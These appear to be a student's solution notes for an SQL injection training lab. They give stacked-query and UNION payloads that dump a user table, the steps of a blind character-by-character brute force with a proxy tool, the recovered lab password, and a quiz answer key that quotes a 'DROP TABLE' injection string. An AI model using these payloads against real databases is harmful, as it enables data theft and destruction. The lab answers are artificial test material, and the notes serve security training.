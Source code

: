 # SQL injection (advanced)

## Task 3

getting all data

```
'; SELECT * FROM user_system_data;--
```

password is passW0rD

```
' UNION SELECT 123, user_name, password, cookie, 'STH', 'STH', 123 from user_system_data;--
```

aboce using union

## Task 5

```
tom' and substring(password,1,1) = 't
```

```
catch PUT response
```

```
sendto intruder and clear
```

```
change ...'t... to ...'pass_char
```

```
ADD (right bar)
```

```
Go to payload bar, brute forcer, min i max  at 1
```

```
positive letter has only gives response 406 in attack
```

```
login:tom
password:thisisasecretfortomonly
```

## Task 6 (Q&A)

1. What is the difference between a prepared statement and a statement?

Solution 4: A statement has got values instead of a prepared statement

2. Which one of the following characters is a placeholder for variables?

Solution 3: ?

3. How can prepared statements be faster than statements?

Solution 2: Prepared statements are compiled once by the database management system waiting for input and are pre-compiled this way.

4. How can a prepared statement prevent SQL-Injection?

Solution 3: Placeholders can prevent that the users input gets attached to the SQL query resulting in a seperation of code and data.

5. What happens if a person with malicious intent writes into a register form :Robert); DROP TABLE Students;-- that has a prepared statement?

Solution 4: The database registers 'Robert' ); DROP TABLE Students;--'.
